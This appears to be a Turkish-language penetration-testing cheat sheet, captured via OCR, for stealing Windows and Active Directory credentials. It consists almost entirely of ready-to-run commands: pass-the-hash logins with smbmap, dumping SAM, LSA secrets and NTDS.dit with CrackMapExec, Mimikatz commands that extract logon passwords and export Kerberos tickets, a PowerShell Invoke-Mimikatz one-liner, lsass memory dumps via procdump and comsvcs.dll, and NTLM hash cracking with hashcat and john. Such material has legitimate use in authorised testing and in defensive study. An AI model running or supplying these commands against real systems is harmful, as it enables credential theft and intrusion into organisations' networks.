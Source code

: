 ### Hash Kullanarak Giriş Yapma:
```bash
smbmap -u USER_NAME -p WHAT_EVER:THE_HASH_IS -H IP_ADDRESS
pwdump SYSTEM SAM > sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

### CME ile SAM Hash’leri Dökme:
```bash
cme smb 10.10.10.10/24 -u Username -p Password --sam

# LSA Çıkartma ve Active Directory Saldırı Yöntemleri

## LSA Bilgisi Çıkartma
```bash
cme smb 10.10.10.10/24 -u KullaniciAdi -p Sifre --lsa
```

## NTDS.dit Dosyasını Çıkartma (DC'den)
```bash
cme smb 10.10.10.10/24 -u KullaniciAdi -p Sifre --ntds
```

## Mimikatz Kullanarak Kimlik Bilgilerini Çıkartma
### Mimikatz Komutları
```bash
mimikatz.exe
privilege::debug  # "200 OK" görmelisiniz.
sekurlsa::logonpasswords  # Kimlik bilgilerini ve diğer bilgileri çıkart.
lsadump::sam  # LSA'da depolanan bilgileri çıkart.
sekurlsa::tickets  # Mevcut biletleri görüntüle.
sekurlsa::tickets /export  # Tüm biletleri indir.
```

### PowerShell ile Mimikatz Çalıştırma
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```

### NTLM Hashlerini Çıkartma ve Kırma
```bash
hashcat -m 1000 -a 3 hashes.txt rockyou.txt
john --format=LM hashes.txt --wordlist=rockyou.txt
```

### lsass.dmp Dosyasını Çıkartma
```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <LSASS.EXE_PID> lsass.dmp full

mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```
